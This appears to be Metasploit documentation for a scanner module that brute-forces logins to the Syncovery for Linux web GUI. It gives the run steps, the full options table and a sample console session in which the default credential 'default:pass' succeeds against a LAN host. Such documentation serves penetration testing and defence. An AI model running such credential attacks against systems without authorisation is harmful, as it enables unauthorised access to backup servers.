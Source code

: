 ## Syncovery For Linux Web-GUI Login Brute-Forcer

This module attempts to brute-force valid login credentials for the Syncovery File Sync & Backup Software Web-GUI for Linux.
The default credentials are checked by default.

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `modules/auxiliary/scanner/http/syncovery_linux_login`
2. `set RHOSTS <TARGET HOSTS>`
3. `run`
5. On success you should get a valid token.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use modules/auxiliary/scanner/http/syncovery_linux_login
msf6 auxiliary(scanner/http/syncovery_linux_login) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_login) > options

Module options (auxiliary/scanner/http/syncovery_linux_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          pass             no        The password to Syncovery (default: pass)
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8999             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true             yes       Stop guessing when a credential works for a host
   TARGETURI         /                no        The path to Syncovery
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          default          yes       The username to Syncovery (default: default)
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_login) > run

[+] 192.168.178.26:8999 - Syncovery File Sync & Backup Software confirmed
[+] 192.168.178.26:8999 - Identified version: 9.48a
[+] 192.168.178.26:8999 - Success: 'default:pass'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
